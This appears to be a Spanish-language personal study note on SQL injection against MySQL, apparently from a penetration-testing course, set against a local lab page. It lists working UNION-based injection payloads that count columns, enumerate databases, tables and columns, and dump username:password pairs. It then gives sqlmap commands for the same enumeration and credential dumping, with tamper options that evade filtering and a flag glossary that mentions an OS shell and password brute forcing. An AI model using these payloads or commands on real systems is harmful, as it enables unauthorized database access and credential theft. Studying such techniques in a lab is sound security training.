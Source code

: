 -- -
Primero empezamos viendo la cantidad de columnas que existen con el uso de order by.
```sql
id=3' order by 100-- -
```

Una vez vimos la cantidad de columnas que existen empezamos con el uso de union select para empezar a ver el contenido almacenado.
```sql
id=3' union select 1
```
La cláusula UNION en SQL se utiliza para combinar los resultados de dos o más consultas SELECT.
En este caso, se intenta combinar los resultados de la consulta original con los resultados de una nueva consulta que el atacante introduce.

Esto nos tendria que mostrar el dato que esta almacenado en la primer columna de la tabla.
Pero si en vez de poner un identificador valido, ponemos unos no valido nos va a empezar a reflejar lo que ponemos, y ahi es cuando podemos  empezar a ejecutar de todo.  
```sql
id=32' union select database();
```

Con este comando le pedimos que nos liste todas las bases de datos existentes.
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **schema_name** --->   columna en la tabla schemata dentro del esquema information_schema. Esta columna contiene los nombres de todas las bases de datos (schemas) en el servidor.
- **information_schema** ---> Esquema especial en MySQL que contiene vistas de metadatos 
- **schemata** ---> Es una tabla dentro del esquema information_schema


El problema es que a veces los resultados terminan siendo limitados. Para evitar eso es mejor jugar con la funcion group_concat() o con limits.
**group_concat** ---> Función que concatena los nombres de todas las tablas en una única cadena, separada por comas.
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

Luego, para enumerar las tablas de cierta base de datos podriamos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

Luego, tambien para ver las columnas tendriamos q hacer algo muy similiar a lo anterior.
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username) from users-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username,':',password) from users-- -
```

## Aclaraciones
------- 
- Con el order by tenemos que poner siempre la cantidad de columnas con un solo numero. Por ejemplo si la consulta sql es **"select username,password from users where id = '$id'")**, entonces la inyeccion con el order by seria: **id=1' order by 2-- -** ya que la consulta en si le esta pegando a 2 columnas dentro de la tabla.

- Luego, con el union select tendriamos que darle la cantidad de columas separadas por comas junto con un id valido, por ejemplo: **id=1' union select 1,2-- -** . Despues tendriamos que darle un valor erroneo al id para ver cual de los 2 numero separados por la coma nos muestra la pagina, ejemplo **id=-1' union select 1,2-- -**. Una vez vemos cual es el que nos muestra ahi mismo es donde tenemos que empezar a inyectar los comandos. **id=-1' union select database(),2-- -.
-- - 
## Sqlmap
-- - 
```python
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u --tables
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u -T users --columns
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u -T users -C username,password --dump
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms="$dbms" --time-sec 10 --random-agent --tech=T --tamper=between,randomcase,space2comment --hex
```

```python
--dbs --> Enumera las bases de datoso.
--dbms --> solamente prueba payloads para el dbms que le indiquemos. Ej: mysql, oracle, etc.
--batch --> Hace que tome las opciones por defecto.
-D --> Especificamos la base de datos a enumerar.
-T --> Especificamos la tabla a enumerar.
-C --> Indicamos columnas a enumerar.
--os-shell --> Intenta darnos una consola interactiva.
--dump --> Dumpea la base de datos y si las contraseñas estan hasheadas realiza un brute force attack para intentar descubrirlas.
--cookie --> setea cookie de sesion para poder acceder a cierto endpoint de la URL.
--risk --> Nivel de riesgo a probar (1-3, default 1)
--level --> Nivel de testeos a probar (1-5, default 1)
```
-- - 
